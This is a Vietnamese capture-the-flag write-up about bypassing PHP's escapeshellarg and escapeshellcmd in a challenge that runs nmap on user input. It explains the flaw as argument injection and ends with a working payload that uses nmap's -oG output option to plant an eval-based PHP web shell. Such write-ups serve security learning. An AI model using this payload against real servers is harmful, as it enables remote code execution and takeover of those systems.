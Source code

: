 Challenge cho ta source code sau:

```php
<?php
 
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
 
if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

Đầu tiên là `REMOTE_ADDR` và `X_FORWARDED_FOR` cũng ko quan trọng mấy.Ta có thể truyền tham số “host” thông qua method GET. Nếu tham số host có tồn tại thì nó sẽ được xử lí lần lượt qua 2 hàm `escapeshellarg()` và `escapeshellcmd()`.Đối với hàm `escapeshellarg` nó sẽ chuyển từ chuỗi thành tham số có thể sử dụng trong shell command, và bọc dấu ngoặc đơn để đảm bảo rằng các ký tự đặc biệt không được hiểu là phần của lệnh, mà chỉ được coi là phần chuỗi.

`escapeshellcmd` Đảm bảo rằng user chỉ thực hiện một command.Dấu “\” sẽ được thêm vào trước các kí tự & #; `| \? ~ <> ^ () [] {} $ *, \ X0A và \ xFF

# Bypass

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4c964fda-0b73-49b1-8969-07d3b48ad741)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bd5a9be-1080-46f1-979f-e7cdf3a96f3b)

Mình có đọc [wu](https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#gitlist-rce-exploit) này, theo wu viết thì có cách để bypass 2 hàm này là Argument injection - tấn côn dựa trên việc giả các tham số.Vậy ta có pass vào các option mới cho command.Tùy vào command mà challenge cho thì cách bypass khác nhau. Với command của challenge cho là

`nmap -T5 -sT -Pn --host-timeout 2 -F`

Payload: `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\shellcode\'`

shellcode: `' <?= @eval($_POST["hack"]);?> -og hack.php '`

